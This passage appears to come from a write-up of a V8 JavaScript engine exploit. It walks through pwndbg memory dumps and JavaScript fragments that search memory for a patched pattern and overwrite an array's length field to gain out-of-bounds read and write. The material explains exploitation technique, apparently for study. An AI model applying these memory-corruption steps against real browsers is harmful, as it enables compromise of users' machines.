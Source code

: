 We get the offset inside `corruptedArr` to the first found pattern and then start our search from there again. This time we find the original address of pattern that we intended to find. Again we patch the pattern to stop finding the same pattern again and again.

```bash
pwndbg> x/50wx 0x288100042191-1
0x288100042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x2881000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
0x2881000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x2881000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x2881000421d0:	0x0018ece5	0x00000219	0x000421e9	0x0000000a
0x2881000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
0x2881000421f0:	0x00000000	(0x00000082)	0x00000000	0x40508000
0x288100042200:	0x00000000	0x40544000	0x00000000	0x40548000
0x288100042210:	0x00000000	0x3ff80000	0x00000901	0x00000006
...
```

Second pattern patched with 0x41 (0x82 in memory).

```js
if (dblIndex == null || oobDblArr[0] == 0x41) {
    console.log("cannot find dblIndex");
```

Then we check if we found the pattern or not. `oobDblArr[0]` is at address 0x2881000421f0 and it is not 0x41.

```js
else {
    corruptedArr[dblIndex - 3] = 0x100;
    console.log("oobDblArr new length: " + oobDblArr.length);
```

`corruptedArr[dblIndex]` points to `elements` member of `oobDblArr`. If we go back 3 double words (Addresses are 32-bit in v8) we get length member of array. We change that to 256 to get OOB read and write. 

```bash
pwndbg> x/50wx 0x05d300042191-1
0x5d300042190:	0x0018e4c1	0x00000219	0x00000219	0x00182271
0x5d3000421a0:	0x00000901	0x0000000a	0x00000000	0x00000002
0x5d3000421b0:	0x00000000	0x40508000	0x00000000	0x40544000
0x5d3000421c0:	0x00000000	0x40548000	0x00000000	0x3ff80000
0x5d3000421d0:	0x0018ece5	0x00000219	0x000421e9	(0x00000200) from 0xa to 0x200 
0x5d3000421e0:	0x0000117d	0x00207c81	0x00000901	0x0000000a
0x5d3000421f0:	0x00000000	0x00000082	0x00000000	0x40508000
...
```

```js
  dblIndex = searchDblArrIndex(dblAddr, corruptedArr, 0x40504000/2, 0x40508000/2, dblAddr + 0x100);
  dblAddr = indexToAddr(dblIndex + 10);

  dblIndex = searchDblArrIndex(dblAddr, corruptedArr, 0x40504000/2, 0x40508000/2, dblAddr + 0x100);
  console.log("oobDblAddr2: " + indexToAddr(dblIndex).toString(16));
  var oobDbl2Index = dblIndex;
```
